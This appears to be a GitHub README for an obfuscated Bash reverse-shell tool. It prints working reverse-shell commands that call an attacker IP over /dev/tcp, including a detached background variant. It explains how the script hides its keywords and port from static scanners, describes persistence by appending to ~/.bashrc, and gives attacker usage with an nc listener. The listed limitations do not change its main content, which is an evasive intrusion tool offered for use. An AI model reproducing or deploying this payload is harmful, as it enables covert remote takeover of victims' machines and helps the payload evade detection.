


# reverse-sHELL

A heavily obfuscated Bash reverse shell that reconstructs its payload **at runtime** from
fragments and error-message characters, `base64`, `rev`, and string slicing, so that no
literal keyword (`bash`, `base64`, `/dev/tcp`, `rev`) ever appears in the source code.

## Note on AI use

I coded the entire thing myself in about 6 hours of trial and errors. This writeup was 
written by parts by me, then improved by Claude. This is the only way to be productive 
nowadays. 

Another note : I would be surprised if any public AI provided help building this kind of 
payloads. A local instance of Ornith-1.5-9B wasn't even able to reverse this script after
two hours at 5tok/s.

## Payload

### Classic reverse shell

```bash
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

This is the textbook one-liner bash reverse shell. The problem: it **blocks the victim's 
terminal**, or **"hangs"** for as long as the session is open, which is an obvious sign.

### Testing locally

For testing, the listener will run on `127.0.0.1:3260`. It is possible to change the port 
for this reverse shell, but you will need to understand how it works to do so :

```bash
bash -i >& /dev/tcp/127.0.0.1/3260 0>&1
```

### Non-blocking variant

To avoid hanging the victim's shell, the payload is forked into the background and
detached from the terminal:

```bash
( setsid bash -c 'sleep 3; bash -i >& /dev/tcp/127.0.0.1/3260 0>&1' </dev/null >/dev/null 2>&1 & )
```

`setsid` + `&` detaches it into its own session, returning the prompt instantly.
The `</dev/null >/dev/null 2>&1` silences the launcher so nothing prints to the victim's
screen. The `sleep` delay is easy to change in the code.

> This is not the only way to achieve a non-blocking shell.

## How the obfuscation works

1. **Character harvesting from errors.** A Bash syntax error (`if then`) is triggered and
   the digit `6` is sliced out of its `line 6` text. A second error from `ls --bypass`
   (which is not a valid flag) yields `b` and `a`. These build the string `base64`.
2. **Dynamic port recovery.** `seq 2745 5072 | rev` produces every integer in that range
   (reversed), and 4 characters are sliced out at index 2575. This stores `0623` in `$dd`,
   which becomes `3260` once the fully assembled command is reversed at the end. The
   port is not present in the source code.
3. **IP from argument.** The target IP is passed as the first argument (`$1`). It is very
   easy to hide an IP in the script. I have done it, and I will not provide a way to do so in
   this repo. Do it yourself.
4. **The decoy string.** A base64 blob is reversed and decoded to the troll message
   *"This is some garbage base64. You cannot reverse this."*, but it is not garbage; it's
   a character bank. String slices pull `rev` out of the word *reverse* and `i` out of
   *This* (for `bash -i`).
5. **Assembling the payload.** The reverse-shell command is built **backwards**, then piped through
   `rev` and into `bash`, so the real command only exists for the instant before execution.

## Persistence

The script appends its own path to `~/.bashrc`, so every new interactive Bash session
re-launches it and calls back to the listener. This is **very basic** persistence and
would almost certainly be caught on any monitored host, since `.bashrc` is a well-known
auto-exec (startup) location on Linux. If we ommit the ```--norc``` flag in the payload, 
there will be an infinite amount of shells sent to the listener. This is because everytime
we run ```bash -i``` in the payload, the ```bashrc``` file is executed again. This is why
```--norc``` is passed right after ```bash -i``` in the payload. 

## Limitations

- **Does not survive runtime analysis.** `bash -x`, `strace`, or a sandbox trace follows
  execution straight through the `sleep` and prints the reconstructed
  `bash -i >& /dev/tcp/...` command in cleartext. The `sleep` only helps against a sandbox
  that *times out before the delay ends* , and a few seconds rarely beats a real one. If
  this was to be used by attackers, expect the delay to be much higher. Forking/backgrounding
  does not hide anything from a trace either.
- **Fragile.** It depends on the exact wording and byte offsets of GNU `ls`/Bash error
  messages, so a different locale (`LANG`) or a non-GNU `ls` (BusyBox, macOS) breaks the
  character harvesting and `base64` never assembles.
- **Tool dependencies.** Requires `base64`, `seq`, `getent`, and `rev` on the target. This
  is mostly okay since all big Linux distributions ship with those tools already installed.
- **Loud at runtime.** The `/dev/tcp` connection from Bash, a shell with its stdio wired
  to a socket, and the `.bashrc` write are all high-signal indicators regardless of the
  source obfuscation.

Hiding the IP inside the script (rather than passing it as an argument) would keep it off
the process command line and out of shell history — a reasonable next improvement.

## Usage

```bash
./shell.sh <attacker_ip>
```

On the attacker machine:

```bash
nc -lvnp 3260
```

## Demo

Victim's screen (nothing visible after execution):



Attacker's listener receiving the shell:


